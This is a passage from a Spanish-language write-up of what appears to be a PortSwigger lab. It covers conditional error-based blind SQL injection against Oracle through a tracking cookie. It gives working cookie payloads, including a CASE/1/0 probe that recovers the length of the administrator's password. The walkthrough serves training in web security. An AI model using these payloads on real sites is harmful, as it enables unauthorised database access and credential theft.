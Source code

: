 <img src="/img/articulos/sqli-portswigger/47.png" alt="">

* **Explotación**

Ahora cuando la respuesta es inválida devuelve un código de estado 500. La solución para esta ocasión es introducir otra comilla simple, ya que lo más probale es que se quedara un campo sin cerrar. Además, se está empleando Oracle, por lo que hay que indicar una tabla

```null
Cookie: TrackingId=NEQKfeMP7dS3xYpf'||(select '' from dual)||'; session=PmZjpcdziBGJBIQia08cMoUTkkAvosvU
```

La inyección consiste en un bucle infinito que va a iterar por cada caracter y en caso de que la condición se cumpla, se efectuará la operatoria ```1/0```, lo que originará un error (500), por lo que puedo descartarlos y dumpear los datos que quiera basándome en esta condición. Por ejemplo, así se podría obtener la longitud de la contraseña

```null
Cookie: TrackingId=NEQKfeMP7dS3xYpf'||(select case when (1=1) then to_char(1/0) else '' end from users where username='administrator' and length(password)=20)||'
```

